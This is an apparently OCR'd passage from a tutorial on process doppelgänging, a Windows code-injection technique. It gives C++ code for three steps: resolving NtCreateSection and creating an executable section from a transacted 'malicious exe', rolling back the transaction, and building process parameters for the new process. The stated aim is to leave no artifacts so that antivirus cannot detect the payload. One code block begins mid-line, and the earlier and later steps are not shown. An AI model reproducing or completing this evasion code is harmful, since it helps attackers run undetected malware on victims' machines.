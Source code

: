 2. Load
>* Create a shared Section of memory
>* Load the malicious exe to it
```cpp
//4- CreateSection

  // Resolving the address of NtCreateSection

using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL);

myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));

//5- CreateSection from the above transacated file "Malicious exe"

HANDLE sectionHandle = NULL; 

fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, hTransactedFile);


```

3. Rollback

>* Removing the malicious exe from the legitimate Process
So there is no malicious Files in the desk , no Artifacts , Nothing Can AVs detect


```cpp

//6- RollBack the transaction

RollbackTransaction(hTransaction);

```



4.	Animate
>* Create process and thread objects
>* Create process parameters
>* Copy parameters to the newly created process's address space
>* Resume the process

```cpp
ionHandle, NULL, NULL, FALSE);

// Resolving CreateProcessParameterEx
RtlCreateProcessParametersEx createProcessParametersEx = (RtlCreateProcessParametersEx)GetProcAddress(hNtdll, "RtlCreateProcessParametersEx");

my_PRTL_USER_PROCESS_PARAMETERS ProcessParams = 0;
UNICODE_STRING  string;

createProcessParametersEx(&ProcessParams, &string,NULL,NULL,&string,NULL,NULL,NULL,NULL,NULL, RTL_USER_PROC_PARAMS_NORMALIZED);

```
